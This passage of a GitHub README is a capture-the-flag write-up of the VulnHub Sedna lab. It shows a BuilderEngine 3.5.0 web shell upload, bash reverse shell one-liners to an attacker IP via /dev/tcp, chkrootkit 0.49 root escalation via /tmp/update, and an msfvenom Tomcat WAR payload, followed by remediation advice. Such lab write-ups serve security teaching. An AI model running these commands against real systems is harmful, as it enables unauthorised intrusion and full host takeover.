Inspecting the discovered `/license.txt` file (`curl http://$TARGET/license.txt`) reveals that the web server is running **BuilderEngine Version 3.5.0**.

## 3. Vulnerability Identification
Querying Exploit-DB offline via SearchSploit reveals a critical vulnerability for this CMS version:
```bash
searchsploit builderengine
```
The exploit `BuilderEngine 3.5.0 - Arbitrary File Upload (40390.php)` demonstrates that `/themes/dashboard/assets/plugins/jquery-file-upload/server/php/` suffers from an unauthenticated file upload flaw via the `files[]` parameter, placing uploaded payloads directly into the `/files/` directory.

## 4. Exploitation & Initial Access
We create a standard PHP command execution web shell (`shell.php`) and upload it directly using `curl`:
```bash
curl -X POST \
  "http://$TARGET/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" \
  -F "files[]=@shell.php"
```
After confirming code execution via `http://$TARGET/files/shell.php?cmd=id`, we start a Netcat listener (`nc -lvnp 4444`) and trigger a Bash reverse shell:
```bash
curl -G "http://$TARGET/files/shell.php" \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/172.30.211.201/4444 0>&1'"
```
Once connected as `www-data`, we stabilize the shell using Python PTY and capture the user flag:
```bash
cat /var/www/flag.txt
# Flag: bfbb7e6e6e88d9ae66848b9aeac6b289
```

## 5. Privilege Escalation
During local enumeration on the Ubuntu 14.04 (Kernel 3.13) host, we discover `chkrootkit` version `0.49` installed at `/usr/sbin/chkrootkit` and running periodically via a root cronjob.

**Vulnerability Analysis (CVE-2014-0476):**  
Due to unquoted variable assignment in the `slapper()` function of `chkrootkit 0.49`, the script executes `/tmp/update` with root privileges whenever the cronjob runs, provided `/tmp` is not mounted with `noexec`.

**Exploitation Steps:**
1. Start a listener on port 9999 (`nc -lvnp 9999`).
2. Create an executable reverse shell script at `/tmp/update`:
   ```bash
   echo '#!/bin/bash' > /tmp/update
   echo 'bash -i >& /dev/tcp/172.30.211.201/9999 0>&1' >> /tmp/update
   chmod +x /tmp/update
   ```
3. Wait ~60 seconds for the cronjob to trigger, granting a `root` shell on our listener:
   ```bash
   cat /root/flag.txt
   # Flag: a10828bee17db751de4b936614558305
   ```

## 6. Alternative Path: Apache Tomcat RCE
Inspecting `/etc/tomcat7/tomcat-users.xml` reveals credentials (`tomcat : submitthisforpoints`) for the `manager-gui` role. Using `msfvenom`, we can generate a malicious `.war` payload, deploy it via `http://$TARGET:8080/manager/html`, and trigger a reverse shell as the `tomcat7` user:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.30.211.201 LPORT=5555 -f war -o tomcat-war-shell.war
```

## 7. Impact & Remediation
* **Impact:** Unauthenticated file upload capabilities paired with outdated system utilities allow remote attackers to achieve complete host compromise (`root`).
* **Remediation:**
  1. Enforce authentication on file upload endpoints and disable script execution in upload directories (`/files/`).
  2. Upgrade `chkrootkit` to a patched version and mount `/tmp` with the `noexec`, `nosuid`, and `nodev` options.
  3. Restrict network access to the Tomcat Manager interface and enforce strong credential policies.

<p align="right">(<a href="#top">back to top</a>)</p>

---

<!-- ATTACK FLOW ROADMAP -->
## Roadmap / Attack Flow Summary

- [x] **Phase 1: Reconnaissance** — Subnet discovery & Nmap service enumeration (`Ports 22, 80, 8080`)
- [x] **Phase 2: Web Enumeration** — Gobuster directory scan & CMS fingerprinting (`license.txt` -> BuilderEngine 3.5.0)
- [x] **Phase 3: Initial Foothold** — Unauthenticated PHP Web Shell upload (`EDB-ID: 40390`) -> `www-data` Reverse Shell
- [x] **Phase 4: User Flag** — Captured `/var/www/flag.txt`
- [x] **Phase 5: Privilege Escalation** — Exploited `chkrootkit 0.49` cronjob (`CVE-2014-0476`) via `/tmp/update`
- [x] **Phase 6: Root Flag & Alternative Vector** — Captured `/root/flag.txt` & demonstrated Tomcat WAR deployment

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTRIBUTING -->
## Contributing

যদি এই রাইটআপে কোনো তথ্য সংযোজন বা পরিমার্জন করতে চান, তবে নির্দ্বিধায় Pull Request পাঠাতে পারেন!  
Contributions, issues, and feature requests are welcome!

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/Improvement`)
3. Commit your Changes (`git commit -m 'Add additional PrivEsc method'`)
4. Push to the Branch (`git push origin feature/Improvement`)
5. Open a Pull Request

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- LICENSE -->
## License

Distributed under the MIT License. Educational and ethical penetration testing purposes only.

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

Project Link: [https://github.com/your_username/your_repo_name](https://github.com/your_username/your_repo_name)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [VulnHub — Hackfest 2016: Sedna](https://www.vulnhub.com/entry/hackfest2016-sedna,181/)
* [Exploit-DB (Offensive Security)](https://www.exploit-db.com/)
* [ProjectDiscovery (Nuclei)](https://projectdiscovery.io/)
* [Best-README-Template](https://github.com/othneildrew/Best-README-Template)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- MARKDOWN LINKS & IMAGES -->
[contributors-shield]: https://img.shields.io/github/contributors/shariorzero/VulnHub-Sedna-Writeup.svg?style=for-the-badge
[contributors-url]: https://github.com/shariorzero/VulnHub-Sedna-Writeup/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/shariorzero/VulnHub-Sedna-Writeup.svg?style=for-the-badge
[forks-url]: https://github.com/shariorzero/VulnHub-Sedna-Writeup/network/members
[stars-shield]: https://img.shields.io/github/stars/shariorzero/VulnHub-Sedna-Writeup.svg?style=for-the-badge
[stars-url]: https://github.com/shariorzero/VulnHub-Sedna-Writeup/stargazers
[issues-shield]: https://img.shields.io/github/issues/shariorzero/VulnHub-Sedna-Writeup.svg?style=for-the-badge
[issues-url]: https://github.com/shariorzero/VulnHub-Sedna-Writeup/issues
[license-shield]: https://img.shields.io/github/license/shariorzero/VulnHub-Sedna-Writeup.svg?style=for-the-badge
[license-url]: https://github.com/shariorzero/VulnHub-Sedna-Writeup/blob/master/LICENSE
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://www.linkedin.com/in/md-sharior-akram/
[product-screenshot]: images/banner.png

[Kali-shield]: https://img.shields.io/badge/Kali_Linux-557C94?style=for-the-badge&logo=kalilinux&logoColor=white
[Kali-url]: https://www.kali.org/
[Metasploit-shield]: https://img.shields.io/badge/Metasploit-2596BE?style=for-the-badge&logo=metasploit&logoColor=white
[Metasploit-url]: https://www.metasploit.com/
[Tomcat-shield]: https://img.shields.io/badge/Apache_Tomcat-F8DC75?style=for-the-badge&logo=apache-tomcat&logoColor=black
[Tomcat-url]: https://tomcat.apache.org/
[PHP-shield]: https://img.shields.io/badge/PHP-777BB4?style=for-the-badge&logo=php&logoColor=white
[PHP-url]: https://www.php.net/
[Bash-shield]: https://img.shields.io/badge/GNU_Bash-4EAA25?style=for-the-badge&logo=gnu-bash&logoColor=white
[Bash-url]: https://www.gnu.org/software/bash/
[Nuclei-shield]: https://img.shields.io/badge/Nuclei-000000?style=for-the-badge&logo=projectdiscovery&logoColor=white
[Nuclei-url]: https://projectdiscovery.io/
